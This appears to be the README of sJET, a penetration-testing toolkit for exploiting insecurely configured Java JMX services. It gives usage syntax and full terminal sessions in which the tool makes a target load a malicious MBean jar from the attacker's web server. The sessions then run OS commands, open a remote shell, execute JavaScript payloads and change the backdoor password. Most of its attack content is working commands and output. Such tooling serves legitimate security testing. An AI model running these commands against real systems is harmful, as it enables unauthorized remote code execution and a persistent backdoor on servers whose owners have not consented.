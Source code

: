 # sJET by siberas

siberas JMX Exploitation Toolkit

sJET allows an easy exploitation of insecure configured JMX services. Additional background
information can be found [here](https://www.optiv.com/blog/exploiting-jmx-rmi) and [here](https://www.owasp.org/images/c/c1/JMX_-_Java_Management_Extensions_-_Hans-Martin_Muench.pdf).

## Prerequisites

* [Jython 2.7](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort password MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **password** - the password that is/was set during installation
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target
  * *payload_url* - full URL to load the payload
  * *payload_port* - port to load the payload
* **uninstall** - uninstalls the payload from the current target
* **password** -  change the password on a already deployed payload
  * *password* - the new password
* **command** -  runs the command *CMD* in the targetHost
  * *CMD* - the command to run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())
* **javascript** - runs a javascript file *FILENAME* in the targetHost
  * *FILENAME* - the javascript to be run


## Example


### Installing the payload MBean on a vulnerable JMX service

In the following example, the vulnerable JMX service runs on the 192.168.11.136:9991, the attacker has
the IP address 192.168.11.132. The JMX service will connect to the web service of the attacker to download
the payload jar file. sJET will start the necessary web service on port 8000.

After the successful installation of the MBean, the default password is changed to the password that was provided
at the command line ("super_secret").

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret install http://192.168.11.132:8000 8000
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.11.132:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET / HTTP/1.1" 200 -
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded MBeanSiberas:name=payload,id=1
[+] Changing default password...
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

h0ng10@rocksteady:~/sjet$
```

Installation with JMX credentials (also needs a weak configuration of the server):
```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret install http://192.168.11.132:8000 8000 --jmxrole JMXUSER --jmxpassword JMXPASSWORD
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Using credentials: JMXUSER / JMXPASSWORD
[+] Connected: rmi://192.168.11.132  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.11.132:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET / HTTP/1.1" 200 -
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded MBeanSiberas:name=payload,id=1
[+] Changing default password...
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

h0ng10@rocksteady:~/sjet$
```

### Running the command 'ls -la' in a Linux target:

After the payload was installed, we can use it to execute OS commands on the target.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret command "ls -la"
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ls -la
total 16
drwxr-xr-x  4 root    root    4096 Aug 22 16:12 .
drwxr-xr-x 66 root    root    4096 Aug 22 16:12 ..
lrwxrwxrwx  1 root    root      12 Mär 29 01:46 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Mär 29 01:46 lib
lrwxrwxrwx  1 root    root      17 Mär 29 01:46 logs -> ../../log/tomcat8
drwxrwxr-x  3 tomcat8 tomcat8 4096 Aug 22 16:12 webapps
lrwxrwxrwx  1 root    root      19 Mär 29 01:46 work -> ../../cache/tomcat8


[+] Done
h0ng10@rocksteady:~/sjet$
```
### Running ping in shell mode on a target

If you don't want to load Java for every command, you can use the "shell mode"
to get a limited command shell.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret shell
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  3
[+] Use command 'exit_shell' to exit the shell
>>> ping -c 3 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping -c 3 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.075 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2050ms
rtt min/avg/max/mdev = 0.044/0.055/0.075/0.014 ms


>>> exit_shell
[+] Done
h0ng10@rocksteady:~/sjet$
```

### Invoke a JavaScript payload on a target:

The example script "javaproperties.js" displays the Java properties of the vulnerable
service. It can be invoked as follows:

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret javascript scripts/javaproperties.js
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
java.vendor=Oracle Corporation
sun.java.launcher=SUN_STANDARD
catalina.base=/var/lib/tomcat8
sun.management.compiler=HotSpot 64-Bit Tiered Compilers
catalina.useNaming=true
os.name=Linux
...
java.vm.name=OpenJDK 64-Bit Server VM
file.encoding=UTF-8
java.specification.version=1.8


h0ng10@rocksteady:~/sjet$
```

### Change the password

Change the existing password ("super_secret") to "this-is-the-new-password":

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret password this-is-the-new-password
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  6
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

[+] Done
h0ng10@rocksteady:~/sjet$
```

### Uninstall the payload MBean from the target


Uninstall the payload 'Siberas' from the target:

```
minmaxer@prellermbp:~/sjet$ jython sjet.py 192.168.1.101 9010 super_secret uninstall
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.1.101:9010/jmxrmi
[+] Connected: rmi://192.168.1.1  16
[+] MBean correctly uninstalled
minmaxer@prellermbp:~/sjet$
```


## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://twitter.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)
* **Ben Campbell** - *Several improvements* - [Meatballs1](https://github.com/Meatballs1)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
